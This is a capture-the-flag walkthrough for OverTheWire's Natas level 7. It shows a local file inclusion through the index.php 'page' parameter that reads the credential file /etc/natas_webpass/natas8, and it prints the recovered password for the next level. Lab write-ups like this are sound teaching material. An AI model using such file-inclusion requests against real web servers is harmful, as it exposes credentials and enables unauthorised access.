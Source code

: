 Clicking on either link reveals the query we can parse into the code

http://natas7.natas.labs.overthewire.org/index.php?page=

Running without anything, gives this error, nothing important, just interesting

```
Warning: include(): Filename cannot be empty in /var/www/natas/natas7/index.php on line 21

Warning: include(): Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/natas/natas7/index.php on line 21
```

In the source we can find this comment, and put it in the query

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

view-source:http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

`DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`